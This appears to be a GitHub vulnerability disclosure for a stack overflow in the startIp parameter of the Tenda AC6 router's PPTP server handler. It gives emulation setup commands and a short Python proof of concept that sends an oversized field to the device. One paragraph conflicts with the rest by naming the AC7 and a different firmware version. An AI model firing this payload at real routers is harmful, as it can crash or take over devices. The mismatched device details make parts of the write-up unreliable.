 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/9dd2dd44-e173-4d40-87f2-8e167129aaae)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details
Tenda ac6 V15.03.05.16 Stack overflow is found in the startip parameter in the function SetPPTPServer. You can build payload for remote command execution
![image](https://github.com/user-attachments/assets/27c1c05c-0b31-4ebf-91a1-7e339f3722d2)

A buffer overflow vulnerability exists in the formSetPPTPServer function of tenda AC7 V15.03.06.44. The vulnerability could allow an attacker to exploit malicious input to overwrite other important data in memory, potentially causing the device to crash or execute arbitrary code.

### poc
```
import requests

url = "http://192.168.142.100/goform/SetPptpServerCfg"

data = {
    "endIp": "192.168.142.100",  
    "startIp": "raining"*0x200
}

response = requests.post(url,  data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```
![image](https://github.com/user-attachments/assets/a99dd684-a13e-45e4-8791-6b205aa60d19)
